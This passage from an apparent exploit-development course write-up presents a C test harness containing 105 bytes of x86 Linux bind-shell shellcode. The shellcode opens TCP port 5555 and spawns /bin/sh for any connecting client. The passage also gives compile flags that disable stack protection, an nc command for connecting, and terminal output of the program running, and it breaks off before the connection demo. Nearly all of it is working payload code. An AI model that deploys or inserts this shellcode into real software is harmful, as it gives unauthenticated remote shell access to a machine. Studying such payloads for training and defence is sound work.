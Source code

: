 A simple C program scripted and edited with the newly generated shellcode:

```c
/**
* Filename: shellcode.c
* Author: h3ll0clar1c3
* Purpose: Bind shellcode on TCP port 5555, spawn a shell on incoming connection  
* Compilation: gcc -fno-stack-protector -z execstack -m32 shellcode.c -o shell_bind_tcp_final  
* Usage: ./shell_bind_tcp_final
* Testing: nc -nv 127.0.0.1 5555
* Shellcode size: 105 bytes
* Architecture: x86
**/

#include <stdio.h>
#include <string.h>

int main(void)
{
unsigned char code[] =
"\x31\xc0\x31\xdb\x31\xf6\x56\x6a\x01\x6a\x02\xb0\x66\xb3\x01\x89\xe1\xcd\x80\x89\xc2\x56\x66\x68\x15"
"\xb3\x66\x6a\x02\x89\xe1\x6a\x16\x51\x52\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x6a\x01\x52\xb0\x66\xb3\x04"
"\x89\xe1\xcd\x80\x56\x56\x52\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xc2\x31\xc9\xb1\x03\x89\xd3\x49\xb0"
"\x3f\xcd\x80\x79\xf9\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xc2\x53\x89"
"\xe1\xb0\x0b\xcd\x80";

    printf("Shellcode length: %d\n", strlen(code));

    void (*s)() = (void *)code;
    s();

    return 0;
}
```

#### POC (Final Shellcode) 
------

The C program is compiled as an executable binary with stack-protection disabled, and executed resulting in a shellcode size of 105 bytes:

```bash
osboxes@osboxes:~/Downloads/SLAE$ gcc -fno-stack-protector -z execstack -m32 shellcode.c -o shell_bind_tcp_final
osboxes@osboxes:~/Downloads/SLAE$ ./shell_bind_tcp_final
Shellcode length: 105

```

A separate terminal demonstrating a successful bind connection and shell on the local host (via port 5555):
